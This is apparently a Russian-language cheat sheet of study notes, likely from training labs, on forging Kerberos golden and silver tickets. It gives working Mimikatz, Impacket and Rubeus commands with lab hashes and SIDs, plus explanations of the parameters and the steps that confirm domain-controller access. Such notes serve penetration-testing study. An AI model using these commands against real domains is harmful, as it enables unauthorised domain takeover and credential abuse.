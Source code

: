 	kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:810d754e118439bab1e1d13216150299 /ptt
   
   	kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
 	kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
		
	/admin — имя пользователя, которое мы хотим выдать за себя. Это не обязательно должен быть действительный пользователь.
	/domain — полное доменное имя домена, для которого мы хотим создать билет.
	/id — RID пользователя. По умолчанию Mimikatz использует RID 500, который является RID учетной записи администратора по умолчанию.
	/sid — SID домена, для которого мы хотим сгенерировать билет.
	/krbtgt — NTLM- хеш учетной записи KRBTGT.
	/endin — срок действия билета. По умолчанию Mimikatz генерирует билет, действительный в течение 10 лет. по умолчанию Политика Kerberos для AD составляет 10 часов (600 минут).
	/renewmax — максимальный срок действия билета с продлением. По умолчанию Mimikatz генерирует билет, действительный в течение 10 лет. по умолчанию Политика Kerberos для AD составляет 7 дней (10080 минут).
	/ptt — этот флаг сообщает Mimikatz о необходимости внедрения билета непосредственно в сеанс, что означает, что он готов к использованию. 

 ***Проверка
 
	klist
 	PS C:\Tools\mimikatz_trunk\x64> dir \\thmdc.za.tryhackme.loc\c$\
	Enter-PSSession dc01
# golden ticket (Linux)
	SID домена
	impacket-lookupsid inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
 	Создаем TGT
  	impacket-ticketer -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator
	klist
 	Заходим...
	wmiexec.py DC01.INLANEFREIGHT.LOCAL -k -no-pass

# silver ticket (Windows)
	
 	*** Создать Серебряный Билет 
	mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local /service:cifs /ticket:sql01.kirbi" exit
 	
  	*** Создать жертвенный процесс 
  	Rubeus.exe createnetonly /program:cmd.exe /show
   	Rubeus.exe ptt /ticket:sql01.kirbi
	
  	*** Проверяем
   	PSExec.exe -accepteula \\sql01.inlanefreight.local cmd
